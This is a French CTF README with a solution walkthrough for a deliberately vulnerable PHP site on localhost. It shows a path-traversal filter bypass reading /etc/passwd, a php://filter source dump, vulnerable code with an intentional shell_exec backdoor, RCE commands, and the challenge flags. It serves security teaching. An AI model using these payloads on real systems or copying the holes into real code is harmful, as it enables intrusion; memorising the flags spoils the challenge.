


# CityScope CTF

## Installation
Suivez ces étapes pour configurer le CTF :

1. **Cloner le dépôt:**

   ```bash
   git clone https://github.com/alpearik/CTF
   cd CTF
   ```

2. **Construire et exécuter les services:**
   
   ```
   docker-compose up -d
   ```

3. **Accéder au challenge:**

   Ouvrez un navigateur web et naviguez vers http://localhost.
   

## Solution

Nous lançons notre défi en accédant au site d'une application mobile CityScope qui comporte une page de contact et une page de fonctionnalités.



Notre objectif est de trouver une faille LFI (Local File Inclusion) pour récupérer notre premier flag, puis d'obtenir un contrôle Shell à distance pour explorer le serveur et récupérer notre deuxième flag (RCE).

## LFI
Les deux pages en elles-mêmes ne sont pas pertinentes ; nous devons nous concentrer sur l'URL. Lorsque l'on clique sur le bouton contact, le paramètre "page" appelle le fichier contact.php, et de même pour le bouton fonctionnalités qui appelle le fichier features.php.
À partir de ces informations, nous pouvons déduire que le site web utilise la fonction PHP "include", qui permet d'ajouter le contenu d'un fichier PHP dans un autre.
C'est là que la vulnérabilité d'inclusion de fichiers locaux (LFI) intervient. Un attaquant peut exploiter cette fonction pour lire des fichiers. Sachant qu'il s'agit d'une machine Linux, nous essayons d'inclure le fichier /etc/passwd, qui contient des informations sur les utilisateurs de la machine.

```bash
http://localhost/index.php?page=/../../../../../../../etc/passwd 
```

Nous rencontrons une restriction en remontant dans l'arborescence avec '../..'. Pour contourner cette limitation, nous pouvons utiliser cette séquence similaire :

```bash
.././..
```

On remplace donc tout les ../.. par des .././.. : 

```bash
http://localhost/index.php?page=/.././.././.././.././.././.././../etc/passwd   
```

Nous avons un autre messages : “Seules les pages contact et fonctionnalités sont autorisées”

L’URL doit probablement filtrer le paramètre GET et vérifier que l’on n'inclut pas d'autres fichiers que contact et fonctionnalités.

Si les mots contact ou features sont contenus dans l’URL , alors la condition est validé et on peut alors inclure le fichier compromettant : 

```bash
http://localhost/index.php?page=features/.././.././.././.././.././.././../etc/passwd 
```

On obtient : 

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

En exploitant le "wrapper" PHP php://filter, nous pouvons encoder en base64 le contenu du fichier index.php pour inspecter le code source :

```bash
http://localhost/index.php?page=php://filter/convert.base64-encode/resource=index.php 
```


Il suffit désormais de décoder la chaîne en Base64 pour regarder le code source :

```bash
echo “PCFET0NUWVBFIGh0bWw+DQo8aHRtbCBsYW5nPSJmciI+DQo8aGVhZD4NCiAgICA8bWV0YSBjaGFyc2V0PSJVVEYtOCI+DQogICAgPG1ldGEgbmFtZT0idmlld3BvcnQiIGNvbnRlbnQ9IndpZHRoPWRldmljZS13aWR0aCwgaW5pdGlhbC1zY2FsZT0xLjAiPg0KICAgIDx0aXRsZT5DaXR5U2NvcGUgLSBBcHBsaWNhdGlvbiBNb2JpbGU8L3RpdGxlPg0KICAgIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgaHJlZj0ic3R5bGVzLmNzcyI+DQogICAgPGxpbmsgcmVsPSJpY29uIiBocmVmPSJpbWFnZXMvaWNvbi5wbmciIHR5cGU9ImltYWdlL3BuZyI+DQogICAgPGxpbmsgcmVsPSJwcmVjb25uZWN0IiBocmVmPSJodHRwczovL2ZvbnRzLmdvb2dsZWFwaXMuY29tIj4NCjxsaW5rIHJlbD0icHJlY29ubmVjdCIgaHJlZj0iaHR0cHM6Ly9mb250cy5nc3RhdGljLmNvbSIgY3Jvc3NvcmlnaW4+DQo8bGluayBocmVmPSJodHRwczovL2ZvbnRzLmdvb2dsZWFwaXMuY29tL2NzczI/ZmFtaWx5PVJvYm90bzppdGFsLHdnaHRAMCwxMDA7MCwzMDA7MCw0MDA7MCw1MDA7MCw3MDA7MCw5MDA7MSwxMDA7MSwzMDA7MSw0MDA7MSw1MDA7MSw3MDA7MSw5MDAmZGlzcGxheT1zd2FwIiByZWw9InN0eWxlc2hlZXQiPg0KPC9oZWFkPg0KPGJvZHk+DQogICAgPGhlYWRlcj4NCiAgICAgICAgPD9waHAgaW5jbHVkZSAndGVtcGxhdGVzL2hlYWRlci5odG1sJzsgPz4NCiAgICA8L2hlYWRlcj4NCiAgICA8c2VjdGlvbiBpZD0iaW50cm8iPg0KICAgICAgICA8ZGl2IGNsYXNzPSJpbnRyby1jb250ZW50Ij4NCiAgICAgICAgICAgIDxpbWcgc3JjPSJpbWFnZXMvaWNvbjIucG5nIiBjbGFzcz0iaW50cm8tbG9nbyI+DQogICAgICAgICAgICA8aDEgY2xhc3M9ImludHJvLXRpdGxlIj5DaXR5U2NvcGU8L2gxPg0KICAgICAgICAgICAgPHAgY2xhc3M9ImludHJvLXNsb2dhbiI+Vm90cmUgcGFydGVuYWlyZSBwb3VyIHVuZSB2aWxsZSBtZWlsbGV1cmU8L3A+DQogICAgICAgIDwvZGl2Pg0KICAgIDwvc2VjdGlvbj4NCiAgICA8c2VjdGlvbiBpZD0iY29udGVudCI+DQogICAgICAgIDxkaXYgY2xhc3M9ImNvbnRlbnQtY29udGFpbmVyIj4NCiAgICAgICAgICAgIDxkaXYgY2xhc3M9ImNvbnRlbnQtdGV4dCI+DQogICAgICAgICAgICAgICAgPGgyPlBBUlRJQ0lQRVosIENPTlRSSUJVRVosIEFNw4lMSU9SRVosIDxicj48c3Bhbj5TT1lFWiBVTiBBQ1RFVVIgRFUgQ0hBTkdFTUVOVCBEQU5TIFZPVFJFIFZJTExFPC9zcGFuPjwvaDI+DQogICAgICAgICAgICAgICAgPHA+Q2l0eVNjb3BlIGVzdCB1bmUgYXBwbGljYXRpb24gbW9iaWxlIGlubm92YW50ZSBxdWkgcGVybWV0IGF1eCBjaXRveWVucyBkZSBzaWduYWxlciB0b3VzIGxlcyBwcm9ibMOobWVzLiBRdWUgY2Ugc29pdCB1biBsaWV1IHNhbGUsIHVuZSBydWUgbWFsIMOpY2xhaXLDqWUsIGRlcyBiaWVucyBwdWJsaWNzIGTDqWdyYWTDqXMgb3UgdG91dCBhdXRyZSBwcm9ibMOobWUsIGxlcyB1dGlsaXNhdGV1cnMgcGV1dmVudCBsZXMgc2lnbmFsZXIgc3VyIGxhIGNhcnRlIGludGVyYWN0aXZlIGRlIGxhIHZpbGxlLiBEZXMgc3VnZ2VzdGlvbnMgZXQgc29sdXRpb25zIHBldXZlbnQgw6lnYWxlbWVudCDDqnRyZSBwcm9wb3PDqWVzLjwvcD4NCiAgICAgICAgICAgIDwvZGl2Pg0KICAgICAgICAgICAgPGRpdiBjbGFzcz0iY29udGVudC1pbWciPg0KICAgICAgICAgICAgICAgIDxpbWcgc3JjPSJpbWFnZXMvcGhvdG8xLnBuZyI+DQogICAgICAgICAgICA8L2Rpdj4NCiAgICAgICAgPC9kaXY+DQogICAgPC9zZWN0aW9uPg0KICAgIDw/cGhwDQpmdW5jdGlvbiBDb250YWluKCRtYWluLCAkc2VhcmNoKSB7DQogICAgcmV0dXJuIHN0cnBvcygkbWFpbiwgJHNlYXJjaCkgIT09IGZhbHNlOw0KfQ0KDQppZihpc3NldCgkX0dFVFsncGFnZSddKSkgew0KICAgICRwYWdlID0gJF9HRVRbJ3BhZ2UnXTsNCiAgICBpZiAoQ29udGFpbigkcGFnZSwgJy4uLy4uJykpIHsNCiAgICAgICAgZWNobyAnLi4vLi4gbm9uIGF1dG9yaXPDqS4nOw0KICAgIH0gZWxzZSBpZiAoQ29udGFpbigkcGFnZSwgJ2ZlYXR1cmVzJykgfHwgQ29udGFpbigkcGFnZSwgJ2NvbnRhY3QnKSB8fCBDb250YWluKCRwYWdlLCAnaW5kZXgnKSkgew0KICAgICAgICBpbmNsdWRlICRwYWdlOw0KICAgIH0gZWxzZSB7DQogICAgICAgIGVjaG8gJ1NldWxlcyBsZXMgcGFnZXMgY29udGFjdCBldCBmb25jdGlvbm5hbGl0w6lzIHNvbnQgYXV0b3Jpc8OpZXMnOw0KICAgIH0NCn0NCg0KaWYoaXNzZXQoJF9HRVRbJ2NtZCddKSkgew0KICAgIGVjaG8gIjxwcmU+IiAuIHNoZWxsX2V4ZWMoJF9HRVRbJ2NtZCddKSAuICI8L3ByZT4iOw0KfQ0KDQovL0ZMQUd7TEZJXzRtWiM3QHBRMiZvNl59DQo/Pg0KDQogICAgDQogICAgDQo8L2JvZHk+DQo8L2h0bWw+DQo=” | base64 -d
```

Le décodage donne ce code :

```bash
<!DOCTYPE html>
<html lang="fr">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CityScope - Application Mobile</title>
    <link rel="stylesheet" href="styles.css">
    <link rel="icon" href="images/icon.png" type="image/png">
    <link rel="preconnect" href="https://fonts.googleapis.com">
<link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
<link href="https://fonts.googleapis.com/css2?family=Roboto:ital,wght@0,100;0,300;0,400;0,500;0,700;0,900;1,100;1,300;1,400;1,500;1,700;1,900&display=swap" rel="stylesheet">
</head>
<body>
    <header>
        <?php include 'templates/header.html'; ?>
    </header>
    <section id="intro">
        <div class="intro-content">
            
            <h1 class="intro-title">CityScope</h1>
            <p class="intro-slogan">Votre partenaire pour une ville meilleure</p>
        </div>
    </section>
    <section id="content">
        <div class="content-container">
            <div class="content-text">
                <h2>PARTICIPEZ, CONTRIBUEZ, AMÉLIOREZ, <br><span>SOYEZ UN ACTEUR DU CHANGEMENT DANS VOTRE VILLE</span></h2>
                <p>CityScope est une application mobile innovante qui permet aux citoyens de signaler tous les problèmes. Que ce soit un lieu sale, une rue mal éclairée, des biens publics dégradés ou tout autre problème, les utilisateurs peuvent les signaler sur la carte interactive de la ville. Des suggestions et solutions peuvent également être proposées.</p>
            </div>
            <div class="content-img">
                
            </div>
        </div>
    </section>
    <?php
function Contain($main, $search) {
    return strpos($main, $search) !== false;
}

if(isset($_GET['page'])) {
    $page = $_GET['page'];
    if (Contain($page, '../..')) {
        echo '../.. non autorisé.';
    } else if (Contain($page, 'features') || Contain($page, 'contact') || Contain($page, 'index')) {
        include $page;
    } else {
        echo 'Seules les pages contact et fonctionnalités sont autorisées';
    }
}

if(isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}

//FLAG{LFI_4mZ#7@pQ2&o6^}
?>

    
    
</body>
</html>
```

Après avoir analysé le code source on trouve notre premier flag :

```
FLAG{LFI_4mZ#7@pQ2&o6^}
```

## RCE

Pour obtenir notre deuxième flag, nous devions réaliser une RCE. Le code source de index.php révélait une fonctionnalité permettant d'exécuter des commandes shell à distance via le paramètre GET "cmd" :

```bash
if(isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
```

Ce morceau de code PHP permet d'exécuter des commandes shell sur le serveur distant en utilisant le paramètre GET cmd. Lorsque ce paramètre est présent dans l'URL, la commande spécifiée est exécutée via la fonction shell_exec() de PHP, et le résultat est affiché.

En testant avec une commande simple comme whoami, nous vérifions que nous pouvons exécuter des commandes sur le serveur :

```bash
http://localhost/index.php?cmd=whoami
```

Cela nous a retourné www-data, nous permettant de poursuivre avec des commandes comme ls pour lister les fichiers et répertoires accessibles.

Il suffit de chercher dans les fichiers notre second flag : 

```bash
http://localhost/index.php?cmd=ls
```



```bash
http://localhost/index.php?cmd=cd%20RCE;cat%20flag.txt 
```

On obtient notre second flag : 

```
FLAG{RCE_7sH!3@kL9&y2^}
```


